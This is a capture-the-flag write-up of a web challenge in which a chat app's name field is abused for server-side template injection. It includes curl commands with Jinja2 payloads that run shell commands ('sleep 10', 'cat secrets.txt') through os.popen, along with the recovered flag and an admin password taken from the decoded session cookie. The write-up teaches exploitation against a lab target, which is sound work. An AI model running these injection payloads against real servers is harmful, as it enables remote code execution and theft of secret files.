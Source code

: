 ```yaml
---
title: "Mr. Chatbot"
category: Web Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: CIT{18a7fbedb4f3548f}
---
```

> "What's your prompt?"
>
> The flag is in secrets.txt
>
> Note: this web challenge instance will reset every 30 minutes. If a challenge is not responsive, you might need to wait until the next half hour.
>
> http://23.179.17.40:58005/

---

Upon accessing the page, we are asked to enter a name to join the chat.

![alt text](image.png)

After submitting a name, we are redirected to a `home` page. A quick look at the JavaScript `home.html` shows:

![alt text](image-1.png)

The `userName` variable is directly inserted into the page, suggesting a possible **SSTI** (Server-Side Template Injection).
However, testing common **SSTI** payloads failed because characters like `{}`, `<`, and `>` were filtered.

After some testing, I checked the cookies and try to decode them. The cookie `session` contained a `Base64` string:

```
eyJhZG1pbiI6IjAiLCJuYW1lIjoienR6In0.aA7zxg.zAnEcRAO3VHXg3UMqxY7BigC5jE
```

Decoding the first part (`Base64`) reveals:

```json
{"admin":"0","name":"ztz"}
```

Because when joining the chat, we will request to http://23.179.17.40:58005/ `POST` request with the `name` parameter. This suggested that the server stores the `name` and `admin` parameters in the cookie. Since the `POST` request accepts a `name`, I attempted to submit additional parameters.

**The idea**: forcefully set `admin=1` and inject a server-side payload.

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('sleep 10').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The server delayed its response by 10 seconds, confirming server-side code execution!

At this point, I attempted to directly read `secrets.txt`:

```pwsh
curl -X POST -d "name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() }}&admin=1" http://23.179.17.40:58005/ -i
```

The request succeeded, but the problem was:
Where can we see the output of `cat secrets.txt`?
When using the cookie, nothing visible appeared in the home chat.

After some experiments (including trying a reverse shell), I noticed that the cookie size changed depending on the command output.
This hinted that the command results were being hidden inside the cookie.

I decoded the cookie using CyberChef (**Base64** Decode (`A-Za-z0-9-_`) -> Zlib Inflate) and found an interesting field named uid, containing **another base64-encoded string**.

Example of the response after inflating:

```json
{"admin":"1","name":" self.__init__.__globals__.__builtins__.__import__('os').popen('cat secrets.txt').read() ","uid":"YWRtaW46OWYzSUMzdWo5XnpaCgpDSVR7MThhN2ZiZWRiNGYzNTQ4Zn1iJiMzOTtceGRhXHg4YVx4YjVceGY0XHg5MDtIXHhjMmVceGQ3XHhmOVx4YWJeY1x4ODVceGIwXHhkN1x4ZGVceDllRVx4OWZceDhkdFx4ODRceGNiX3tuXHhmMVIyXHgxOSYjMzk7"}
```

Decoding the `uid` field gives:

```
admin:9f3IC3uj9^zZ

CIT{18a7fbedb4f3548f}b&#39;\xda\x8a\xb5\xf4\x90;H\xc2e\xd7\xf9\xab^c\x85\xb0\xd7\xde\x9eE\x9f\x8dt\x84\xcb_{n\xf1R2\x19&#39;
```
